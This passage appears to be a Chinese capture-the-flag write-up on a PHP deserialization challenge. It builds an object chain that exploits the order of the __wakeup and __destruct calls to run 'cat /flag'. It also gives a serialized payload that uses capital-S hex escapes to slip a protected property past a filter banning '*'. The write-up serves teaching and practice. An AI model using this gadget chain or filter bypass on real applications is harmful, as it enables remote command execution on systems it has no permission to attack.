 

任意命令执行：

![upload_9473e7fa5477ed268162202cfdacd23b](https://raw.githubusercontent.com/Explorersss/photo/master/20201116142948.jpg)



修改全局变量cmd

![upload_de1b07ff2fc6fa2d33cde79e44ee36c6](https://raw.githubusercontent.com/Explorersss/photo/master/20201116143051.jpg)



但是题目给反序列化的数据加上了一个限制：不能出现`*`(protect变量就需要`*`号)

实际测试一下发现，并不能用public,private的同名变量来代替protect变量，这是难点一

还有就是其他类的`__wakeup`方法会禁止我们通过L5D_Upload来任意变量覆盖，然后L5D_Upload又必须在其他的`__destruct`方法前执行，这是难点二

难点二我们可以通过最后一个调用L5D_Upload的`__wakeup`，第一个调用它的`__destruct`来绕过，因为`__wakeup`的调用顺序是从里到外，从前到后，`__destruct`的调用顺序是从外到内，从前到后，所以构造



```php
class L5D_Upload{
    public $padding;
    public function __construct()
    {
        $this->padding = new L5D_ResetCMD();
    }

}
class L5D_ResetCMD {

    public $padding;
    protected $new_cmd = "cat /flag";
    public function __construct()
    {
        $this->padding=new L5D_Command();
    }

}
class L5D_Command{
}
new L5D_Upload();
```

接着就是难点一了，对`*`号的禁用导致我们不能直接反序列化一个protect属性的成员

但是我们可以用大写S来绕过：

可以利用大写S来绕过对protected,private等属性的字符检测如：

```
O:12:"L5D_ResetCMD":2:{s:7:"padding";O:11:"L5D_Command":0:{}S:10:"\00\2a\00new_cmd";s:9:"cat /flag";}
```
